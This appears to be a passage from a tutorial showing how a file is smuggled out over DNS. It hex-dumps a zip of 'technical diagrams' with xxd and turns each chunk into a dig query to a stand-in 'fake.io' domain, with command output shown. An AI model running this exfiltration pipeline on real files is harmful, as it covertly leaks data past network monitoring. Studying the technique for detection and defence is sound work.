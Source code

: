 ```
% dig A 123456.fake.com @127.0.0.1

; <<>> DiG 9.8.3-P1 <<>> 123456.fake.com @127.0.0.1
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 24059
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 0

;; QUESTION SECTION:
;123456.fake.com.    IN A

;; ANSWER SECTION:
123456.fake.com.  60 IN A  127.0.0.1

;; Query time: 0 msec
;; SERVER: 127.0.0.1#53(127.0.0.1)
;; WHEN: Tue Mar 11 07:55:31 2014
;; MSG SIZE  rcvd: 49
```

Great, so it seems like we have working comms to our own name server, as we got a answer of 127.0.0.1. Our server will always respond with 127.0.0.1 being the IP.

## preparing the file
With comms working to our name server, we can get some information about the file and test if a hex dump tool like `xxd` is available. This will enable us to break the file up in to little parts that can be used as DNS questions.

```
% ls -lah z300_technical_diagrams.zip
-rw-r--r--  1 bob  staff   20.1M Jan 27 01:01 z300_technical_diagrams.zip
% xxd -p z300_technical_diagrams.zip
504b03040a000000000042a9384400000000000000000000000017001c00
7068616e746f6d6a732d312e392e372d6d61636f73782f55540900032b47
e3523947e35275780b000104f50100000414000000504b03040a00000000
0049a938440000000000000000000000001b001c007068616e746f6d6a73
[snip]
```

Great. It looks like we have everything we need to make this work. :)

## 'transferring' the file
Now, we will use a simple awk, and prepare a few dig queries to our name server and finally, run the actual lookups. The best way to explain what is happening here is to actually show it:

```
% xxd -p z300_technical_diagrams.zip | awk '{ print "dig " $1 ".fake.io @127.0.0.1 +short" }'
dig 2e965f1608019c826a5b89b9a881b6df63a634a3ca83c01aa349411e4fa0.fake.io @127.0.0.1 +short
dig 37aec06d77acd4d16ca559e008078e8bbfa2e1f0e3db8b995885fe398d48.fake.io @127.0.0.1 +short
dig 763b55cfda9b977328588068d3a9b63b06811f5ecfae570e3f6e2d8b5e34.fake.io @127.0.0.1 +short
dig 97b223da3800b1341ced3cc9e8542f53c0e123965e24591a9b75f58d4330.fake.io @127.0.0.1 +short
dig eb9287c294832c7a79a84dc1cd066baf7e51adabc070eab8477a7cc4530d.fake.io @127.0.0.1 +short
dig 9110217bcafcbaa48eee91567bfd698a76c70961ca9fea3402f929d4ee87.fake.io @127.0.0.1 +short
dig f543e9a8c27602aeb2f6744a5097a7f20404f3e53d513c11d63e70434a71.fake.io @127.0.0.1 +short
dig 61e85f16195f2fa75a82368cfbc781ace543ab22fcb72c97fbdb03015f8c.fake.io @127.0.0.1 +short
[snip]
```
